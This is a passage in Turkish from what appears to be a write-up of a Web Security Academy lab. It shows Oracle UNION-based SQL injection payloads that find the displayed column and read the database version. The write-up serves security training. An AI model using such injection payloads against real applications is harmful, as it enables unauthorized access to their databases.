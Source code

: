Ekrana yazılan kolonun da 2. kolon olduğunu bu şekilde tespit etmekteyiz.

```html
' UNION SELECT null,'ilker' FROM dual--
```

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2016.png)

Oracle veritabanında versiyon bilgisini öğrenmek için de yukarıda paylaştığımız cheat sheet’te görebileceğiniz üzere bu şekilde bir sorgu yazmamız gerekmektedir.

```html
' UNION SELECT null,banner FROM v$version--
```

Bu sorguyu yaptığımızda da lab’ın çözüldüğünü görebiliriz.

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2017.png)
